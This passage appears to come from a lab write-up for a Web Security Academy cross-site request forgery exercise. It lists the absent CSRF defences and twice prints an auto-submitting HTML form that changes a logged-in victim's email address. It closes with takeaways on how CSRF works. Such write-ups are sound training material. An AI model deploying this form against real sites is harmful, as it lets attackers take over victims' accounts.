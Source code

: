 Analyzed the request for CSRF defenses:

- ❌ No CSRF token parameter
- ❌ No anti-CSRF headers required
- ❌ No SameSite cookie attribute
- ❌ No Referer validation

### Step 2: Craft CSRF Exploit

Created malicious HTML form that auto-submits:

```html
<form method="POST" action="https://[lab-id].web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="attacker@normal-user.net">
</form>
<script>
    document.forms[0].submit();
</script>
```

### Step 3: Deploy Exploit

1. Uploaded the HTML to exploit server
2. Delivered exploit to victim
3. Victim's email changed automatically upon visiting the page

---

## 🚩 Solution

**CSRF Exploit:**
```html
<form method="POST" action="https://[lab-id].web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="attacker@normal-user.net">
</form>
<script>
    document.forms[0].submit();
</script>
```

---

## 💡 Key Takeaways

### What is CSRF?

**Cross-Site Request Forgery** tricks victims into executing unwanted actions on a web application where they're authenticated.

### Attack Requirements

For CSRF to work:
1. ✅ Victim must be authenticated (has valid session)
2. ✅ No unpredictable parameters in request
3. ✅ Application accepts simple POST/GET requests
4. ✅ No CSRF protection mechanisms
